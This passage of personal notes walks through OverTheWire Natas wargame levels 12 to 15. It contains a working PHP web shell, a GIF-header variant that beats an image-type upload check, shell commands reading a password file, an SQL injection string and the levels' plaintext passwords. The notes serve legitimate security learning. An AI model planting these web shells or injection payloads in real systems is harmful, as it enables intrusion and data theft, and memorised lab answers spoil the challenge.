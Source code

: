 ## 12->13
- http://natas12.natas.labs.overthewire.org/
- `natas13:trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC`
- https://learnhacking.io/overthewire-natas-level-12-walkthrough/
- To solve this challenge, we upload a [web shell](https://en.wikipedia.org/wiki/Web_shell) to the server, and use it to execute shell commands on the exploited server.

```php
# webshell.php
<?php echo shell_exec($_GET['e'].' 2>&1'); ?>
```
- Use devtools to change the file upload name to `webshell.php`. Now you can do things like `http://natas12.natas.labs.overthewire.org/upload/yzv7lsfbzh.php?e=ls`
`http://natas12.natas.labs.overthewire.org/upload/yzv7lsfbzh.php?e=cat%20/etc/natas_webpass/natas13`

## 13->14
- http://natas13.natas.labs.overthewire.org/
- `natas14:z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ`
- New concept: "magic headers" aka [File Signatures](https://en.wikipedia.org/wiki/List_of_file_signatures?ref=learnhacking.io)
  - <img width="719" alt="Screenshot 2025-06-07 at 7 29 20 PM" src="https://github.com/user-attachments/assets/af158e1a-97e2-4f2d-859f-5b309b7d9530" />

- They've tightened up security. "For security reasons, we now only accept image files!" The source code now uses [exif_imagetype()](https://www.php.net/manual/en/function.exif-imagetype.php?ref=learnhacking.io) to check if the uploaded file is an image or not. This PHP function reads the first few bytes of a file, sometimes known as “magic headers” to determine the file type. It won’t be fooled by just changing the file extension. If our file does not begin with the header bytes that indicate it actually is an image file, it will be rejected.
- `Exif_imagetype() bypass`: Luckily, this is pretty easy to bypass. From the magic headers link above, we have a few different options, but it’s probably smart to stick with a more common filetype, GIF looks easy.
- We can use our webshell from last level and append `GIF87a` in front, and execute the same steps to get `/etc/natas_webpass/natas14`, of note the output is prepended with `GIF87a`
```php
# webshell2.php
GIF87a<?php echo shell_exec($_GET['e'].' 2>&1'); ?>
```

## 14->15
- http://natas14.natas.labs.overthewire.org/
- `natas15:SdqIqBsFcz3yotlNYErZSZwblkm0lrvx`
- This challenge shows a query to a database to check user inputted Username and Password information. It only checks that the query returns more than one row, which gives a clue that we need to submit a query somehow to the server.
- https://www.php.net/manual/en/function.mysqli-connect.php
```php
if(mysqli_num_rows(mysqli_query($link, $query)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
```
- Some useful tools
  - https://learnhacking.io/basic-web-skills-dev-tools/
  - https://learnhacking.io/basic-web-skills-setting-up-burp-suite/
  - https://chromewebstore.google.com/detail/foxyproxy/gcknhkkoolaabfmlnjonogaaifnjlfnp?hl=en&pli=1
  - https://primer.picoctf.org/#_introduction
- `" OR 1=1 --` solved it. But why does it need to be in both the `Username` and `Password` field?
<img width="1512" alt="Screenshot 2025-06-08 at 4 24 29 PM" src="https://github.com/user-attachments/assets/476a11a0-dabb-470b-8681-adc040d9e2b2" />
